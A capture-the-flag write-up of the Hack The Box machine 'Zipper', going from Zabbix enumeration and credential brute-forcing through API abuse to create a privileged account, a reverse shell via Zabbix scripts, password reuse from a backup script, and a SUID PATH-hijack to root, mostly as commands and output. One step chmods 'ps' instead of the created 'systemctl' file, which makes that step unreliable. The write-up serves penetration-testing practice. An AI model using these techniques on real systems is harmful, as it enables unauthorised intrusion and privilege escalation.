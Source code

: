 # Zipper 

This is a write up on the HTB machine, Zipper. I have seen a few different methods people used to obtain the initial user as well as root but this is the method I used.


## Enumeration
The IP given is `10.10.10.108`

We start by doing a nmap scan on the IP address:
 ```
[root:~]# nmap -sV -p- -v 10.10.10.108     
PORT      STATE SERVICE    REASON         VERSION
22/tcp    open  ssh        syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp    open  http       syn-ack ttl 62 Apache httpd 2.4.29 ((Ubuntu))
10050/tcp open  tcpwrapped syn-ack ttl 63
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 ```
 
 From here, the two major ports to enumerate is `10050` and `80`. Starting at `10050`, it seems that nmap's service enumeration did not find much information on the port.
 By doing a quick Google search, we are able to get a general idea of what the port is used for, which is `Zabbix-Agent`:
 https://www.speedguide.net/port.php?port=10050
 
 Next, we look at the HTTP service. On the default page of the web server, it is a default Apache2 Ubuntu page.
 Trying to brute force the directory using default Dirb wordlist and seclist's `big.txt` resulted in nothing significant. By using     the information we have gotten on `10050`, the directory `http://10.10.10.108/zabbix` was attempted and a login page was found: 
 
 ![Image](https://i.imgur.com/G7IOBIR.png)

 Default credentials were attempted on the login pannel, however, none of them were valid. 
 We are able to login as a "guest" user. Using CewL, a wordlist was created.
 ```
 [root:~]# cewl http://10.10.10.108/zabbix/zabbix.php\?action\=dashboard.view -H cookie:PHPSESSID=8b2a9bpfd5bvf5jk9s8lqfq9rl -m 5 -d 4 > zabbixwordlist.txt
```
To explain this syntax, we are able to pass a cookie in the header field so CewL scrapes words as the user "guest". The cookie was found by intercepting using Burp when logging in via "guest":
![Image](https://i.gyazo.com/0fcc5ac903ffefe902e1a88f45926c1b.png)

In a more effiecnt approach, we are able to make a wordlist ourselves:
```
zipper
Zipper
admin
Admin
Zabbix
zabbix
Zapper
zapper
password
Password
Administrator
administrator
root
Root
toor
Toor
```

 ## Exploitation
Using a brute forcing application, we find that the username and password credentials are `zapper:zapper` or `Zapper:Zapper`.
We try to login to the GUI pannel, however, we get a `GUI access disabled`.

From here, we do some research on Zabbix application itself. We see that in the documentation, Zabbix uses an API.
Zabbix API documentation: https://www.zabbix.com/documentation/3.0/manual/api

We can try authenticating and accessing the application using the account using the API.
Start by getting the authentication token:
```
curl -d '{
    "jsonrpc": "2.0",
    "method": "user.login",
    "params": {
        "user": "zapper",
        "password": "zapper"
    },
    "id": 1,
    "auth": null
}' -H "Content-Type: application/json" -X POST http://10.10.10.108/zabbix/api_jsonrpc.php 

Result: {"jsonrpc":"2.0","result":"36a3bf6f1edbd8275e3b5667b64fb128","id":1}
```

From here we would want to try to make a higher privledge account, but first we need to enumerate the user groups:
```
[root:~]# curl -d '{
    "jsonrpc": "2.0",
    "method": "usergroup.get",
    "params": {
        "output": "extend",
        "status": 0
    },
    "auth": "36a3bf6f1edbd8275e3b5667b64fb128",
    "id": 1
 }' -H "Content-Type: application/json" -X POST http://10.10.10.108/zabbix/api_jsonrpc.php 

Result: {"jsonrpc":"2.0","result":[{"usrgrpid":"7","name":"Zabbix administrators","gui_access":"0","users_status":"0","debug_mode":"0"},{"usrgrpid":"8","name":"Guests","gui_access":"0","users_status":"0","debug_mode":"0"},{"usrgrpid":"11","name":"Enabled debug mode","gui_access":"0","users_status":"0","debug_mode":"1"},{"usrgrpid":"12","name":"No access to the frontend","gui_access":"2","users_status":"0","debug_mode":"0"}],"id":1}
```

Lets create a debugging mode account:
```
curl -d '{
    "jsonrpc": "2.0",
    "method": "user.create",
    "params": {
        "alias": "John2",
        "passwd": "Doe123",
	"type": "3",
        "usrgrps": [
            {
                "usrgrpid": "11"
            }
        ],
        "user_medias": [
            {
                "mediatypeid": "1",
                "sendto": "support@company.com",
                "active": 0,
                "severity": 63,
                "period": "1-7,00:00-24:00"
            }
        ]
    },
    "auth": "36a3bf6f1edbd8275e3b5667b64fb128",
    "id": 1
}' -H "Content-Type: application/json" -X POST http://10.10.10.108/zabbix/api_jsonrpc.php 
```
After the user is created, we are able to login via GUI. We now have access to the "Administration" tab. We are able to create scripts `Administration -> Scripts` and execute them in the Zabbix agent. The Zabbix server is the container.
By doing some enumeration on the machine using the script function, we find that the machine has Perl installed. Using Perl, we can create a reverse shell:

![Image](https://i.gyazo.com/d372e0fb1099b2875399b6ae1e6ac527.png)

We set up a listener on our attacking machine:
`[root:~]# nc -nvlp 1234`

Then we login as a "guest" and execute the script:
![Image](https://i.gyazo.com/fb40cffa499fb2a4adc1d6927d0a0f88.png)

#Privledge Escalation (User)
We are a very low privledged user, authenticated as the Zabbix service:
```
$ whoami
zabbix
```

Searching around the machine, we find a backup script:
```
$ cd /home/zapper/utils
$ ls
backup.sh
zabbix-service
$ cat backup.sh 
#!/bin/bash
#
# Quick script to backup all utilities in this folder to /backups
#
/usr/bin/7z a /backups/zapper_backup-$(/bin/date +%F).7z -pZippityDoDah /home/zapper/utils/* &>/dev/null
```

The zip file is using a password `ZippityDoDah`.
We can try to authenticate to a user using the password we have found, but first we need to spawn a tty shell as we are getting `su: must be run from a terminal` by using the command `su`. By enumerating the machine more, we see that python3 is available:
`python3 -c 'import pty; pty.spawn("/bin/sh")'`

Viewing the `/etc/passwd` shows a user `zapper` and we are able to authenticate to the user by using the password we have found `ZippityDoDah`:
![Image](https://i.gyazo.com/aed65e3fb0ecaa12d31394138356afbe.png)

#Privledge Escalation (Root)
Now we have user, it is time to move on to Root. Doing basic enumeration on the machine, such as using a privledge escalation script (https://www.rebootuser.com/?p=1758), we see something that is unsual with SUID files:
```
[-] SUID files:
-rwsr-sr-x 1 root root 7556 Sep  8 13:05 /home/zapper/utils/zabbix-service
-rwsr-xr-x 1 root root 161520 Nov 30  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 26012 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 30112 Aug 11  2016 /bin/fusermount
-rwsr-xr-x 1 root root 63988 Mar  9  2017 /bin/ping
-rwsr-xr-x 1 root root 43240 Jan 25  2018 /bin/su
-rwsr-xr-x 1 root root 42400 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 62024 Jan 25  2018 /usr/bin/passwd
-rwsr-xr-x 1 root root 43684 Jan 25  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 78788 Jan 25  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 172120 Jan 17  2018 /usr/bin/sudo
-rwsr-xr-x 1 root root 39016 Jan 25  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 78340 Jan 25  2018 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 13960 Mar  9  2017 /usr/bin/traceroute6.iputils
-rwsr-xr-x 1 root root 525884 Feb  9  2018 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 46436 Nov 15  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 5480 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
```

In the `/home/zapper/utils` directory before, we see the `zabbix-service` file. So how can we elevate privledges with this file?
Lets figure out what this file does...

By running the file we see that we are able to 'stop' or 'start' the Zabbix service. From this we can assume that it uses some sort of system binary. By cat the file, we find that the file is using `systemctl`:
`... startsystemctl daemon-reload && systemctl start zabbix-agentstopsystemctl ... `

We can escalate to Root by changing the path variable and creating a file named `systemctl` which spawns a shell:
```
cd /tmp
echo "/bin/bash" > systemctl
chmod 777 ps
export PATH=/tmp:$PATH
```

Then we run the `zabbix-service` and `start` the service to trigger `systemctl`:
```cd /home/zapper/utils
./zabbix-service
start or stop?: start
```

And we are root:

![Image](https://i.gyazo.com/ba7592ed784591b356c81ef85836560a.png)


